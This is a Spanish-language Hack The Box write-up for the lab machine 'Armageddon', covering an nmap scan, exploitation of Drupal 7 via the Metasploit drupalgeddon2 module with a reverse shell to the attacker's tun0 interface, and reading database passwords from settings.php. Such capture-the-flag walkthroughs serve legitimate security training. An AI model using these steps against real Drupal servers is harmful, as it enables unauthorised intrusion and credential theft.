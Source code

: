 # Hack-the-box writeup: Armagedon Machine

<img src="img/armagedon_logo.png" width="800" height="400" />

## Overview

| Name     | Armageddon   |
| -------- | ------------ |
| IP       | 10.10.10.233 |
| Puntos   | 20           |
| Os       | Linux        |
| Dicultad | Fácil        |



##  Scanning con nmap

Reconocimiento con NMAP esto fue lo que encontramos:

```bash
──(root💀kali)-[~/hackthebox_machine/armagedon/nmap]
└─# nmap -sC -sV 10.10.10.233 -p22,80 -oN objetivo
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 14:35 EDT
Nmap scan report for 10.10.10.233
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddo
```

## Revisando página web

Pudimos detectar una versión vulnerable de drupal, este contiene un xploit con el cual puedo ganar acceso al servidor por medio de msfconsole.

<img src="img/web1.png" width="800" height="400" />

## Generando payload

- Nos dirigemos a msfconsole y configuraremos lo siguiente.

  ```bash
  msfcosle -q
  use exploit/unix/webapp/drupal_drupalgeddon2
  options
  set rhosts 10.10.10.233
  set lhost tun0
  run
  ```

  <img src="img/shell.png" width="1000" height="400" />

  

## Encontrando archivo setting.php

- Si nos vamos a la ruta **/var/www/html/sites/default/** veremos que tenemos un archivo que tiene por nombre **settings.php** 

<img src="img/directorio.png" width="900" height="200" />

- Revisando el archivo **settings.php** vamos a encontrar las contraseñas de la base de datos.
